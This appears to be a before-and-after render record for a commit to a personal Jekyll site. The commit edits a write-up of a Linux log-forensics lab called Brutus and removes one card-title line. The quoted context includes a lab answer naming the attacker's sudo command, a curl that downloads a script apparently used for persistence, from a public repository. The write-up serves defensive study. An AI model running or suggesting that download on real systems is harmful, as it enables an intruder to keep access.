

Before and after one commit to Ningen820/Ningen820.github.io, a Jekyll site: the page built from _writeups/brutus.md, in a window 1280 px wide and 900 px high, scrolled down 5560 px. Shown: the part 151-451 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update brutus.md

```diff
--- a/_writeups/brutus.md
+++ b/_writeups/brutus.md
@@ -126,7 +126,6 @@ cards:
       [Mar 6 06:37:24] systemd-logind[411]: Removed session 37.
 
   card8:
-    card_title: "question 08"
     question: "The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?"
     answer: "/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh"
     explanation: |
```
